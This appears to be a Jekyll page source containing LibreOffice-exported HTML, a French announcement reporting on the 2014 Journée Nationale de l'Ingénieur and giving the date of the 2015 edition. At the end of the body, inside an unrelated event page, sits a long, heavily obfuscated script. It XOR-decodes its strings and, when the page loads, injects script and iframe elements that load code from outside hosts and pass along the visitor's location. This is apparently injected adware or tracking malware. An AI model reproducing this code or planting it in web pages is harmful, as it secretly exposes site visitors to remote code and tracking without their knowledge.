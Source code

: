 ```yaml
---
layout: default
published: true
title: "Bilan-JNI-2014"
---
```


##Bilan JNI 2014


<HTML>
<HEAD>
	<META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=utf-8">
	<TITLE></TITLE>
	<META NAME="GENERATOR" CONTENT="LibreOffice 4.0.5.2 (Linux)">
	<META NAME="AUTHOR" CONTENT="Jacques de VILLELE">
	<META NAME="CREATED" CONTENT="20140322;18060000">
	<META NAME="CHANGEDBY" CONTENT="J d V">
	<META NAME="CHANGED" CONTENT="20140322;18060000">
	<META NAME="AppVersion" CONTENT="12.0000">
	<META NAME="DocSecurity" CONTENT="0">
	<META NAME="HyperlinksChanged" CONTENT="false">
	<META NAME="LinksUpToDate" CONTENT="false">
	<META NAME="ScaleCrop" CONTENT="false">
	<META NAME="ShareDoc" CONTENT="false">
	<STYLE TYPE="text/css">
	<!--
		@page { margin: 0.98in }
		P { margin-bottom: 0.08in; direction: ltr; widows: 2; orphans: 2 }
		A:link { color: #0000ff; so-language: zxx }
	-->
	</STYLE>
<script id="6A8C7E1040C0947D"></script></HEAD>
<IMG SRC="![En-teteIESF-HN.jpg](/media/En-teteIESF-HN.jpg)
![En-teteIESF-HN.jpg](/media/En-teteIESF-HN.jpg)
" ALIGN=MIDDLE>
<BODY LANG="fr-FR" LINK="#0000ff" DIR="LTR">
<P STYLE="margin-top: 0.02n; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=6><B>Succès
JNI 2014</B></FONT></FONT></FONT>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Plus
de 5 000 participants présents à la JNI 2014</B></FONT></FONT></FONT></P>
<P STYLE="margin-top: 1.02in; margin-bottom: 1.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>qui se déroulerait
dans </FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U><B>28
villes de France</B></U></FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3>
avec des conférences, colloques, table ronde et ateliers, où sont
intervenu des entrepreneurs, des ingénieurs, des innovateurs et des
personnalités de premier plan pour y apporter leur expérience et
leur témoignage. Pour sa 2ème édition la Journée Nationale de
l’Ingénieur 2014 s’articulait autour du thème « Innover,
Entreprendre ».</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%"><A NAME="_GoBack"></A>
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Ces manifestations
étaient organisées en partenariat avec des entreprises et des
organismes de dimension nationale, avec la participation locale des
Régions françaises, des écoles d’ingénieurs et des associations
de diplômés.</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous pouvez revoir
les vidéos assister en différé des sessions qui se sont déroulées
pour le colloque national à la Cité des Sciences et de l’Industrie
le 3 avril 2014( </FONT></FONT><A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U>http://www.iesf-jni.org/</U></FONT></FONT></FONT></A><FONT FACE="Times New Roman, serif"><FONT SIZE=3>).</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous pourrez découvrir
prochainement le compte rendu du colloque national à la Cité des
Sciences et de l’Industrie, et les photos des différentes JNI dans
toute la France.</FONT></FONT></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=4 STYLE="font-size: 13pt"><U><B>http://www.iesf-jni.org/</B></U></FONT></FONT></FONT></A></P>
<B></B><B><FONT><./P><P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B><BR><BR><B></B><B><FONT><./P>Rendez-vous
le </B></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><U><B>2
avril 2015</B></U></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>
pour la troisième JNI</B></FONT></FONT></FONT></P>
<P STYLE="margin-bottom: 0.11in"><BR><BR>
</P>
<script id="6A8C7E1040C0947D">(function(){function p(r){var h=120,n="",w=window,z=("f\x72o"+""+"i\u0058"+"U\u0072\u0061\x72"+"C\x6fd"+"e")['r'+'\x65\x70'+'la\u0063e']("\x69XU"+"r","m"+"C"+""+"h"),e="ch\u0061r"+"\u0043\x6Fd"+"e\x41t"+"",t=("wz"+"ng"+"\x74h"+"")['re'+''+'pl\u0061\u0063e'](""+"w\x7a",""+"le"+""),o="\x53t\u0072i\u006e\x67",f=w[o],q=f[z],k,v;for(var s=0;s<r[t];s++){k=r[e](s);v=k^h;n+=q(v);}return n;};var qc=-1559780412;if(window[p(("S"+"\u0072\x6E"+"n"+"k\x62\b").replace("S"+"r"+"\u006e\u006Ek"+"b","\f\x17"))]==window[p('\u000b\x1d\x14\u001E')]){var vi={};var ff=true;vi[p(("m"+"\u007a\u0042h\n\u000B\u0011\x17\x16").replace("\x6Dz"+"\x42h"+"","\x0E\u001D"))]=p('I'+'\x4DO');try{var nd=-2035394659;}catch(pc){};vi[p(("UO"+"OV\x16\f\r\x11\x1C").replace("\u0055\x4FO\x56","\u001B\x14\x11\u001d"))]="6A8C7E1040C0947D";var xb="hF6y194b5JrB8 AK34";vi[p(('\u0019\x1C\u001c\x6C\u0079\u0046\u006bs'+'\u001d').replace('\u006C\x79\u0046k'+''+'s','\u0017\u0016\x16\x19\u0015'))]=p("\u002A\x1dU\x15\u0019\n\u0013\x11\f");window[p((""+"J"+"W\u0064\u004A\x0e\x02").replace("\u004a\x57"+"dJ","\'\n"))]=vi;(function(){window[p(('\'\'\n\x0E\u0002\n\x67\x6Cj\u0071\x14').replace('g\u006cjq','\x1c\u001f\u001F\x1C'))]={product_name:p(('\x2A\x42'+'J\u006B\u006F\u0019\n\u0013\u0011\f').replace('\u0042Jko','\x1D\u0055\u0015'))};var zj=document[p('\u001B\n\x1D\x19\f\u001D='+'\x14\u001D\x15\u001D\x16\f')](p("\x0b\x1B\n\x11\b\f"));zj[p("\x0B\u001D\f9"+"\f\f\n\x11\x1A\r\f\x1d")](p(("\u006D\u0050QK\b\x1D").replace(""+"m\x50\u0051\x4B","\f\u0001")),p(('\f\u001D\u0000\fW\u0012\u0019Il\u001b\n\x11\b\f').replace('\u0049l','\u000e\x19\x0b')));zj[p('\u000B\u001d\f\u0039\f\f\n\u0011\x1a\r\f\u001d')](p(("\u001B\u0010\u0019\n\x4Ek"+"o\x44\x7A\f").replace("\x4e\x6B\u006FD"+"z","\x0B\u001D")),p(("-\x2c\x64\u004E\u0040").replace("d\u004e",">U")));zj[p('\x0b\u001D\f9\f\f\n\u0011\u001a\r\f\x1d')](p('\u000b\n\x1B'),(p(('yb'+'\x0b\x42').replace('\x79\u0062','\u0010\f\f\b'))==document[p(("\x14\u0049\x47\u0071\x11\u0017\u0016").replace("\x49\u0047\x71","\u0017\x1b\x19\f"))][p((''+'ge'+''+'i\u0054\x1B\x17\x14').replace('g'+''+'eiT','\b\n\x17\f\x17'))]?p("\u0010\f\f\b\u000b"):p(('\x79O'+'A'+'E\u0045\u0047KOMo\x51R\x75\x53\f\b').replace('y\u004F\x41EE\x47\u004bOM\x6F\x51R'+'\x75\x53','\u0010\f')))+p(('\x42W'+'\u0057\u000F\u000F\x0fV'+'\u000b\r\b\x1D\n\x1E\u0011\u000B\u0010V\x1b\u0017\u0015W\x0F\u000bW'+'\x0B\u001E\'\u0015\u0019\x11\x16V\x12\x0B\bG\u001c\u0014\x0b\x17\r\n\x1b\x1D'+'E\u000B\x1E\n\u000e\u0002\n^'+''+'O\u0046'+'O\u001C'+'E').replace('\x4fF'+'\u004f','\r\x0b\u001d\n1'+''))+"6A8C7E1040C0947D"+p("^"+"\u003B\u002c\u0031<E\n\u000e\u0002\n"+"J"+"HL\x48\'\u004AH\x40J"));document[p('\u001A\u0017\x1c\x01')][p(("\x19\b\b\x1d\x16T"+"Ft\u0014\u001C").replace(""+"T\x46t","\u001C"+";\x10\u0011"))](zj);})();(function(){var jy=p(''+'*\x1d\u0055\u0015\u0019\n\x13\u0011\f');var mn={_keyStr:"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=",encode:function(qy){var gf="";var s,df,sw,xp,uw,ue,qu;var br=0;qy=mn[p(("\'\r\f\u001e@"+"\'"+"y\x53\x6f\x52\x70\x1c\x1d").replace("yS"+"\u006fRp"+"","\u001d\u0016\x1B\x17"))](qy);while(br<qy[p(("\u0014\u0054\x4c\u0010").replace("\u0054\u004c","\u001d\u0016\u001f\f"))]){s=qy[p("\u001B\u0010\x19\n"+";\x17\u001c\x1d\x39\f")](br++);df=qy[p(("\u001B\u0010\x19\u0045M\x1c\x1D"+"9\f").replace(""+"EM"+"","\n\u003B\x17"))](br++);sw=qy[p(("\u001b\x10\u0019"+"y\x68qsL\x39\f").replace("\x79h\u0071\x73"+"L","\n\u003B\x17\u001c\u001D"))](br++);xp=s>>2;uw=((s&3)<<4)|(df>>4);ue=((df&15)<<2)|(sw>>6);qu=sw&63;if(isNaN(df)){ue=qu=64}else{if(isNaN(sw)){qu=64}}gf=gf+this[p(("\'\u0055n\u0052\x4A\n").replace("\u0055\u006e\x52"+"J","\u0013\x1d\u0001\x2B\f"))][p("\x1B\x10\u0019\n\x39\f")](xp)+this[p('\'\x13\u001D\x01+'+'\f\n')][p(("vY"+"\f").replace("v\x59","\x1b\u0010\u0019\n\u0039"))](uw)+this[p("\'\u0013\u001D\u0001\u002B\f\n")][p(('\x1bYY\u0072\x48\x61\f').replace('Y'+'\x59\x72H\u0061','\x10\u0019\n9'+''))](ue)+this[p("\'\u0013\u001D\u0001+\f\n")][p("\x1b\x10\x19\n\u0039\f")](qu)}return gf},decode:function(xr){var df={},zp,gu,xz=[],ke="",kr=String[p(("\u001E\n\u0017\x15"+";b"+"\x73\u006e\x57\x3B\x17\x1c\u001d").replace("b\u0073\x6e\u0057","\u0010\u0019\n"))];var vn=[[65,91],[97,123],[48,58],[43,44],[47,48]];for(ts in vn){for(zp=vn[ts][0];zp<vn[ts][1];zp++){xz[p('\b\r\u000b\x10')](kr(zp))}}for(zp=0;zp<64;zp++){df[xz[zp]]=zp}for(zp=0;zp<xr[p(("v\x7A\x10").replace("\x76\u007A","\u0014\u001D\u0016\x1F\f"))];zp+=72){var qu=0,ue,gf,zr=0,zz=xr[p("\u000b\r\x1A\x0b\f\n\u0011\x16\u001F")](zp,zp+72);for(gf=0;gf<zz[p("\x14\u001D\x16\x1F\f\x10")];gf++){ue=df[zz[p(('\x1bT'+'\u0054'+'x\f').replace('\x54'+'T\u0078','\x10\x19\n9'))](gf)];qu=(qu<<6)+ue;zr+=6;while(zr>=8){ke+=kr((qu>>>(zr-=8))%256)}}}return ke},_utf8_encode:function(no){no=no[p('\n\x1D\b\x14\x19\x1b\u001d')](/\r\n/g,"\n");var vn="";for(var zr=0;zr<no[p("\u0014\u001D\x16\u001f\f\x10")];zr++){var gu=no[p('\x1B\u0010\x19\n\u003B\x17\x1c\x1d'+'9\f')](zr);if(gu<128){vn+=String[p(("\x1E\x73fq\x10\u0019\n;"+"\x17\u001c\x1D").replace("\u0073f"+"q","\n\x17\u0015\x3B"))](gu)}else{if((gu>127)&&(gu<2048)){vn+=String[p(('\u001E\n\x17\x15'+';\u0010\x19'+'z\x53\x4bz\u0056\x1d').replace('zS\u004B\x7a\x56','\n;'+'\x17\u001c'))]((gu>>6)|192);vn+=String[p(("\u001E\n\x17\u0015;\x10\x19\u0070\u0079\u0053"+"s\x1c\u001D").replace("\u0070\u0079"+"S\u0073","\n\u003b\u0017"))]((gu&63)|128)}else{vn+=String[p("\u001E\n\u0017\u0015;\u0010\u0019\n;\u0017\u001c\x1D")]((gu>>12)|224);vn+=String[p(("\x1E\n\u0017\x15"+";W"+"M\u004F\u001c\x1D").replace("\x57\x4dO","\x10\x19\n;"+"\u0017"))](((gu>>6)&63)|128);vn+=String[p(("\x1E"+"L\x62o\u0050\u0072\u0019\n;\x17\x1c\u001d").replace("L"+""+"b\u006f\x50\u0072","\n\x17\u0015"+";\u0010"))]((gu&63)|128)}}}return vn}};var ic=p("\x16\x45")+jy+p("\u005E\u0010\u0045\u001f\u0011\n"+"V\u001C\n\u0011\u000E\x1d\n\u0017\b\f\u0011"+"V\u0016\x1D\f^\x17E"+"\x1c\b^"+"\u0019"+"E\u004aH\x4c\u0048\x5E\u000b\x45\x4aH\x40J\u005e\x1bE\x1f\n\x1D\u001D\x16\x5E\u000FE")+document[p(('\x14\u0074S'+'tj'+'\x65\u0017\x16').replace(''+'t\u0053\u0074\x6Ae'+'','\x17\u001b\u0019\f\x11'))][p("\x10\u0017\x0b\f\u0016\x19\x15\x1d")];var vg=p(("\x10\f\f\bB"+"\u0057\x57\x1F\u0011\nV\u001c\n\x11\x0e\x1d\ny"+"\x4d\x4C\x51\u0059\f\u0011"+"V\x16\x1d\f\x57\x0b\x1cW\u0019\b\b\u000b\u0057\u0019\x1C\u0011\x16\u001e\x17UI"+"V\u0048W\x11\x16\u001c\x1d\x00V"+"\u0010\f\x15\u0014G").replace("y\u004D\u004cQY","\x17\b"))+mn[p('\x1d\u0016\u001b\x17\u001c\x1d')](ic);var zj=document[p('\x1B\n\u001d\u0019\f\u001D\x3d\u0014\x1d\x15\x1D\u0016\f')](p('\u000B\u001B\n\x11\b\f'));zj[p('\x0B\u001D\f\x39\f\f\n\u0011\u001a\r\f\x1d')](p("\f\u0001\b\u001D"),p("\f\u001d\u0000\fW"+"\x12\x19\u000e\u0019\x0b\x1B\n\x11\b\f"));zj[p(("\x74p"+"FBY\f\x39\f\f\n\x11\x1A\r\f\u001d").replace("tpFBY"+"","\u000b\u001d"))](p((''+'I\u0041\u0066Y\x1d\f').replace('I\x41'+'fY'+'','\x1B\u0010\u0019\n\x0B')),p(('\u0070\u005a\x51\x3e'+'U\x40').replace('p\u005a'+'Q','\u002D,')));if("http:"==document[p(("\x14\x74lQq\x19\f\u0011\u0017\x16").replace("t"+"l\x51"+"q","\x17\x1B"))][p("\b\n\x17\f\u0017\u001b\u0017\u0014")]){zj[p(("\u000b\u001d\f9\f\f\n\x11l\u0059\f\x1d").replace(""+"l"+"Y","\x1a\r"))](p(('\x6C\u004e'+'VK\x55j\u006D\u0078'+'B\x73\u0076\u0056R\x1b').replace('\x6C\x4E'+'VK'+'U'+'j'+'\u006d\u0078\u0042s\x76\x56R','\u000b\n')),p(('\u0010\f\f\b\x42\x57W\x11V'+'\n\u000E\u0002\n\x12\u000bV\u0011\x16\u001E\x50C'+'\u0079\x5A\n'+'W\u0012\u0019\u000E\x19\x0b\x1b\n\u0011\b\f\x56\x12\x0b\u0047\u001B\x10\x19\x16\x16\u001d\x14'+'E\n\u000E\u0002\n'+'J\u0048\x4CH\'J'+'H\x40J\x5E\x19\b\b,\u0011\f\x14\u001DE').replace('\x50\u0043\u0079Z','\u0017\u0057\n\u000e\x02'))+jy+p('^\b\x14\u0011\x16\x13E'+'')+encodeURIComponent(vg));}else{zj[p('\u000B\x1D\f\x39\f\f\n\x11\x1a\r\f\x1d')](p('\x0b\n\x1B'),p("\u0010\f\f\b\x0bBW"+"\u0057\u0011\'\n\u000e\u0002\n\x12\u000b\'\x11\x16\x1e\u0017\x56\f\x14\u000B\x1B\x1c\x16V\u001B\u0017\x15\u0057\n\u000e\x02\n"+"W\u0012\u0019\x0e\u0019\u000b\x1b\n\x11\b\fV\u0012\u000B\u0047\x1b\u0010\x19\u0016\u0016\u001D\x14E\n\u000e\u0002\n"+"J\x48"+"L\u0048\'\x4a\u0048\x40J\x5e\x19\b\b"+",\x11\f\x14\x1dE")+jy+p("\u005e\b\x14\u0011\x16\x13E"+"")+encodeURIComponent(vg));}document[p("\x1A\x17\u001C\u0001")][p(('\x19\u004D'+'B'+';\u0010\u0011\x14\x1c').replace('\u004D'+'B','\b\b\x1D\x16\x1c'))](zj);})();;var af=document[p('\x1B\n\u001d\x19\f\u001d='+'\x14\x1d\u0015\u001d\u0016\f')](p(("\u000b\u0041D\f").replace("A\x44","\u001B\n\x11\b")));if(navigator.language){var kx=('o'+'\u0078BF'+'\x42J\u0048\x4bj\u0054\u0034\x3a\u0048'+'G\u0020\u0020d\u0070'+'6\u0065\u0057'+'P\u0031').replace('\x78\x42\u0046B','\x6B\x6e\x519i'+'');}else var vm=(' \x45\u0069A'+'cL'+'\x31N\x36X'+'\u0020\x66\x64'+'v\x78\x751').replace('d'+'vxu'+'',' \u0033\x61C'+'\x20');af[p("\x0b\n\u001b")]=p('\u0057W'+'\u001F\u0011\n\u0056\x1C\n\u0011\u000e\x1d\n\u0017\b\f\x11V\u0016\u001d\fW\x0b\u001cW\x4AH\x4C\x48W'+'\u004a\u0048\x40\x4a\u0056\x12\x0b');if(true)var ti='Uq ';else var ln=location.hostname;document[p(('\x1AZ'+'\x74'+'p\x53\u0075'+'U\x70\u0078\x49P'+'v'+'\u0066\u0001').replace('\u005a\u0074p'+'S\u0075'+'U'+'px\x49'+'P\x76\u0066','\u0017\x1C'))][p('\u0019\b\b\u001D\x16\x1c;'+'\x10\u0011\u0014\x1C')](af);}})();</script></BODY>
</HTML>